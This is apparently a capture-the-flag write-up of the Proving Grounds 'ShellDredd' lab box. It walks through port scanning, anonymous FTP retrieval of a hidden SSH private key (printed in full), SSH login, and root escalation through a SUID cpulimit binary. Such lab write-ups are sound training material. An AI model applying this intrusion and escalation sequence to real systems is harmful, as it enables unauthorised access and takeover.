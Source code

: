 ```yaml
---
layout: post
author: H4
---
```


This box was customized by Offensive Security and integrated in the 'proving grounds' lab.  
In the following you see the solution of the 'proving grounds' version.  

# discovery

Starting with a simple `nmap` scan to identify the attack surface of the target.

## port scan
```bash
$ nmap -Pn -p- 192.168.76.130    
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-20 14:41 EST
Nmap scan report for 192.168.76.130
Host is up (0.057s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp    open  ftp
61000/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 1.15 seconds
```

Identifying the services.
```bash
$ nmap -Pn -p21,61000 -sV 192.168.76.130
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-20 14:57 EST
Nmap scan report for 192.168.76.130
Host is up (0.033s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.19 seconds
```

> So, the service on port `61000` is `ssh`.
{: .prompt-info }

---

# exploitation

## port 21 (`ftp`)
```bash
$ ftp 192.168.76.130
Connected to 192.168.76.130.
220 (vsFTPd 3.0.3)
Name (192.168.76.130:void): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

> Anonymous access is allowed!
{: .prompt-info }

### investigating the `ftp` service
```bash
ftp> dir -a
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 0        115          4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .hannah
226 Directory send OK.
ftp> cd .hannah
250 Directory successfully changed.
ftp> dir -a
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
-rwxr-xr-x    1 0        0            1823 Aug 06  2020 id_rsa
226 Directory send OK.
```

### downloading the `id_rsa` file
```bash
ftp> get id_rsa
local: id_rsa remote: id_rsa
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for id_rsa (1823 bytes).
226 Transfer complete.
1823 bytes received in 0.00 secs (12.4182 MB/s)
ftp> exit
221 Goodbye.

$ cat id_rsa           
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEA1+dMq5Furk3CdxomSts5UsflONuLrAhtWzxvzmDk/fwk9ZZJMYSr
/B76klXVvqrJrZaSPuFhpRiuNr6VybSTrHB3Db7cbJvNrYiovyOOI92fsQ4EDQ1tssS0WR
6iOBdS9dndBF17vOqtHgJIIJPGgCsGpVKXkkMZUbDZDMibs4A26oXjdhjNs74npBq8gqvX
Y4RltqCayDQ67g3tLw8Gpe556tIxt1OlfNWp3mgCxVLE1/FE9S6JP+LeJtF6ctnzMIfdmd
GtlWLJdFmA4Rek1VxEEOskzP/jW9LXn2ebrRd3yG6SEO6o9+uUzLUr3tv9eLSR63Lkh1jz
n5GAP3ogHwAAA8hHmUHbR5lB2wAAAAdzc2gtcnNhAAABAQDX50yrkW6uTcJ3GiZK2zlSx+
U424usCG1bPG/OYOT9/CT1lkkxhKv8HvqSVdW+qsmtlpI+4WGlGK42vpXJtJOscHcNvtxs
m82tiKi/I44j3Z+xDgQNDW2yxLRZHqI4F1L12d0EXXu86q0eAkggk8aAKwalUpeSQxlRsN
kMyJuzgDbqheN2GM2zviekGryCq9djhGW2oJrINDruDe0vDwal7nnq0jG3U6V81aneaALF
UsTX8UT1Lok/4t4m0Xpy2fMwh92Z0a2VYsl0WYDhF6TVXEQQ6yTM/+Nb0tefZ5utF3fIbp
IQ7qj365TMtSve2/14tJHrcuSHWPOfkYA/eiAfAAAAAwEAAQAAAQEAmGDIvfYgtahv7Xtp
Nz/OD1zBrQVWaI5yEAhxqKi+NXu14ha1hdtrPr/mfU1TVARZ3sf8Y6DSN6FZo42TTg7Cgt
vFStA/5e94lFd1MaG4ehu6z01jEos9twQZfSSfvRLJHHctBB2ubUD7+cgGe+eQG3lCcX//
Nd1hi0RTjDAxo9c342/cLR/h3NzU53u7UZJ0U3JLgorUVyonN79zy1VzawL47DocD4DoWC
g8UNdChGGIicgM26OSp28naYNA/5gEEqVGyoh6kyU35qSSLvdGErTMZxVhIfWMVK0hEJGK
yyR15GMmBzDG1PWUqzgbgsJdsHuicEr8CCpaqTEBGpa28QAAAIAoQ2RvULGSqDDu2Salj/
RrfUui6lVd+yo+X7yS8gP6lxsM9in0vUCR3rC/i4yG0WhxsK3GuzfMMdJ82Qc2mQKuc05S
I96Ra9lQolZTZ8orWNkVWrlXF5uiQrbUJ/N5Fld1nvShgYIqSjBKVoFjO5PH4c5aspX5iv
td/kdikaEKmAAAAIEA8tWZGNKyc+pUslJ3nuiPNZzAZMgSp8ZL65TXx+2D1XxR+OnP2Bcd
aHsRkeLw4Mu1JYtk1uLHuQ2OUPm1IZT8XtqmuLo1XMKOC5tAxsj0IpgGPoJf8/2xUqz9tK
LOJK7HN+iwdohkkde9njtfl5Jotq4I5SqKTtIBrtaEjjKZCwUAAACBAOOb6qhGECMwVKCK
9izhqkaCr5j8gtHYBLkHG1Dot3cS4kYvoJ4Xd6AmGnQvB1Bm2PAIA+LurbXpmEp9sQ9+m8
Yy9ZpuPiSXuNdUknlGY6kl+ZY46aes/P5pa34Zk1jWOXw68q86tOUus0A1Gbk1wkaWddye
HvHD9hkCPIq7Sc/TAAAADXJvb3RAT2ZmU2hlbGwBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

> It seems we got a `ssh` key for user `hannah`.
{: .prompt-info }

## port 61000 (`ssh`)
Now we check if we can login with `hannah` using the `ssh` key we just found.
```bash
$ chmod 600 id_rsa 

$ ssh -i id_rsa hannah@192.168.76.130 -p 61000 
Linux ShellDredd 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
hannah@ShellDredd:~$ id
uid=1000(hannah) gid=1000(hannah) groups=1000(hannah),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
```

> We got a shell!
{: .prompt-info }

---

# post exploitation
## get first flag
```bash
hannah@ShellDredd:~$ ls
local.txt  user.txt
hannah@ShellDredd:~$ cat local.txt 
6******************************9
```

## privilege escalation
We start with looking for `SUID` binaries, to check if we can escalate the easy way.
```bash
hannah@ShellDredd:~$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
-rwxr-sr-x 1 root shadow 39616 Feb 14  2019 /usr/sbin/unix_chkpwd
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
-rwxr-sr-x 1 root tty 34896 Jan 10  2019 /usr/bin/wall
-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 34888 Jan 10  2019 /usr/bin/umount
-rwsr-sr-x 1 root root 121976 Mar 23  2012 /usr/bin/mawk
-rwxr-sr-x 1 root ssh 321672 Jan 31  2020 /usr/bin/ssh-agent
-rwxr-sr-x 1 root crontab 43568 Oct 11  2019 /usr/bin/crontab
-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 63568 Jan 10  2019 /usr/bin/su
-rwxr-sr-x 1 root shadow 71816 Jul 27  2018 /usr/bin/chage
-rwxr-sr-x 1 root shadow 31000 Jul 27  2018 /usr/bin/expiry
-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh
-rwxr-sr-x 1 root tty 14736 May  4  2018 /usr/bin/bsd-write
-rwsr-xr-x 1 root root 34896 Apr 22  2020 /usr/bin/fusermount
-rwsr-sr-x 1 root root 23072 Jun 23  2017 /usr/bin/cpulimit
-rwsr-xr-x 1 root root 51280 Jan 10  2019 /usr/bin/mount
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwxr-sr-x 1 root mail 18944 Dec  3  2017 /usr/bin/dotlockfile
```

Checking the results reveals that `mawk` and `cpulimit` may be used for privilege escalation. We will use `cpulimit`. Checking [gtfobins](https://gtfobins.github.io/gtfobins/cpulimit/#suid) shows us how to get `root` access.

```
hannah@ShellDredd:~$ cpulimit -l 100 -f -- /bin/sh -p
Process 1289 detected
# id
uid=1000(hannah) gid=1000(hannah) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),1000(hannah)
```

> Root root!
{: .prompt-info }

## get second flag
```bash
# cd /root
# ls
proof.txt  root.txt
# cat proof.txt
a******************************f
```

Pwned! <@:-)
